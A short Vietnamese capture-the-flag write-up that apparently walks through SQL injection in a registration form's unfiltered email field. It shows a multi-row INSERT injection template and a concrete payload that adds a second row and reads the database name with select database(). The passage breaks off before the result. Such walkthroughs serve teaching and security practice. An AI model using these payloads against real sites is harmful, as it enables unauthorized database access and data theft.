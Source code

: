 ![1](img/59/1.png)

- Website cho ta 2 tab; authentication và register. Ở `register`, ta có thể tùy ý tạo được account và không hề có filter input:

![1](img/59/2.png)

- Từ đó, ta xác định chỗ để inject vào database. Có thể thấy, database sẽ tạo user theo kiểu:

`INSERT INTO users VALUES (username, password, email)`

- Trong khi đó, website không hề filter `email` và ta có thể sử dụng nó để INSERT thêm các giá trị ta muốn với multiple insertions và tấn công vào `email`:

```
INSERT INTO users VALUES (username, password, email), (sth, sth, attack\_payload)-- -
```

- Thử với: `username=dog1&password=1234&email=hotdog'),('cat', '1234', (select database()))-- -`, ta được:
